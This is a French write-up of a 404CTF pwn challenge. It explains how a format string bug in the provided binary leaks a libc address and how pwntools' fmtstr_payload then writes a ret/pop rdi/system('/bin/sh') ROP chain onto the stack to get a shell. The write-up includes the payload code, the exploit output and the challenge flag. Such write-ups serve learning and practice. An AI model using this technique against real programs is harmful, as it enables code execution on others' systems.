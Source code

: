 ## PWN / Une citation pas comme les autres 2/2

<p align="center">
  <img src="img/consignes.png" />
</p>


### Look around

Le binaire est fourni : [une_citation_pas_comme_les_autres_2_2](files/une_citation_pas_comme_les_autres_2_2)

Ainsi que la libc : [libc-2.27.so](files/lic-2.27.so)

Déjà, ça sent le ROP ...


### Exploitation

Dans le code, on trouve en dur les différentes citations à souffler à Christian pour ne pas vexer Roxane et pouvoir poursuivre le dialogue.

Enfin quand c'est notre tour de nous exprimer une belle format string va encore être bien utile. En fait, deux. Et c'est tout.

```c
fgets(user_input,0x100,stdin);
len = strcspn(user_input,"\n");
user_input[len] = '\0';
printf(user_input);
puts(", dites-vous ?\nLaissez-moi votre place, je vous prie.");
fgets(user_input,0x100,stdin);
printf("[Vous] : ");
printf(user_input);
```

La première va nous permettre de faire fuiter des informations depuis la stack, notamment une adresse de retour dans la libc : `__libc_start_main+234` pour la version locale de la libc (`+231` pour la verison utilisée en remote sur le serveur)

Grâce à cela, on peut alors calculer le décalage de la libc en mémoire et préparer un ROP classique pour obtenir un `exec("/bin/sh")`

Le payload va être ensuite inscrit sur la stack grâce aux formateurs `%n` de `printf` permettant d'écrire.

Le décompte des octets etc étant assez pénible à la main, j'ai utilisé le `fmtstr_payload` de pwntools ... et c'est plus pratique !!

J'ai pas mal galéré pour pas grand chose, mon exploit ne fonctionnait pas en remote, finalement comme souvent en ajoutant un `ret` en tête des gagets ça réaligne la stack et l'appelle à system ne crash plus.

``̀ python
payload =  fmtstr_payload(32, {
    ret_printf     :  ROP_ret,
    ret_printf +  8:  ROP_pop_rdi_ret,
    ret_printf + 16:  STR_binsh,
    ret_printf + 24:  system,
    }, write_size='short', numbwritten=0)
```



### Flag

Le code complet : [exploit.py](files/exploit.py)

```bash
$ python3 exploit.py REMOTE

start_main : 0x21ba0
pop : 0x2164f
ret : 0x8aa
system : 0x4f420
binsh : 0x1b3d88
pop : 0x7f9d4516264f
system : 0x7f9d45190420
binsh : 0x7f9d452f4d88
404CTF{CYr4N0_713N7_14_CH4ND3113_M415_V0U5_3735_D3V3NU_UN_607}
```
